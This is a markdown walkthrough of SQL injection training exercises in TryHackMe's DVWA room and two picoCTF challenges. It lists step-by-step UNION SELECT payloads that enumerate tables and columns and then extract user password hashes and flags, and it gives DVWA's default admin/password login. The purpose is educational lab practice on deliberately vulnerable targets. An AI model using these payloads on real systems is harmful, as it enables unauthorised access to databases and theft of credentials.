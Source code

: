 # TryHackMe.com signup
https://tryhackme.com/signup
## TryHackMe SQL Injection room
https://tryhackme.com/r/room/sqlinjectionlm
## TryHackMe DVWA Room
https://tryhackme.com/r/room/dvwa
### DVWA Username and Password
username: admin
password: password
### 1: Adjust DVWA Security
Click on the DVWA Security Button at the bottom-left, then set the security to 'low', then click on 'Submit'.
### 2: Click on the SQL Injection button on the side menu
The button that isn't labelled "Blind".
### 3: Follow these steps to perform the UNION-based SQL injection attack
```
'
```
1 This confirms that there is SQL injection potential on the app, and it also identifies the DBMS system (MySQL)
```
' UNION SELECT null --
```
2 This lets us test if there is one column in the original statement. An error message is returned, so we know it isn't one column.
```
' UNION SELECT null, null -- 
```
3 An error message is not returned with two columns, so this is the number of columns going forward.
```
' UNION SELECT null,version() --
```
4 This is a function specific to MySQL and MariaDB, so we can confirm that this is the DBMS used here.
```
' UNION SELECT null,database() --
```
5 This lets us ID the name of the current database.
```
' UNION SELECT null, table_name from information_schema.tables where table_schema = 'dvwa' -- 
```
6 This lets us return all of the tables in the current database. Note that this syntax is specific to MySQL / MariaDB.
```
' UNION SELECT null, column_name from information_schema.columns where table_schema = 'dvwa' AND table_name='guestbook' -- 
```
7 This allows us to get column names for individual tables.
```
' UNION SELECT null, column_name from information_schema.columns where table_schema = 'dvwa' AND table_name='users' -- 
```
8 And this lets us get the columns for the other table
```
' UNION SELECT user,password from users -- 
```
9 And finally, we use SQL injection to get web app credentials for other users

# PicoCTF Challenges
## More SQLi (UNION SELECT SQL injection)
https://play.picoctf.org/practice/challenge/358?category=1&page=1&search=sql
### Completion Guide
```
Algiers' UNION SELECT null, null, null -- 
```
1 This lets us determine what tables exist in the database
```
Algiers' UNION SELECT null, null, name FROM sqlite_master WHERE type='table' -- 
```
2 This lets us determine which tables exist in our current database
```
Algiers' UNION SELECT null, null, name FROM PRAGMA_table_info('more_table') -- 
```
3 This lets us determine which columns exist in our target table "more_table"
```
Algiers' UNION SELECT null, null, flag FROM more_table -- 
```
4 This lets us get the flag column contents from the more_table table.

#### YouTube walkthrough
https://youtu.be/OLyKnDLuPLs

## SQLiLite (SQL Injection Login Bypass)
https://play.picoctf.org/practice/challenge/304?page=1&search=sql
#### YouTube walkthrough
https://youtu.be/39ExvhlIay4


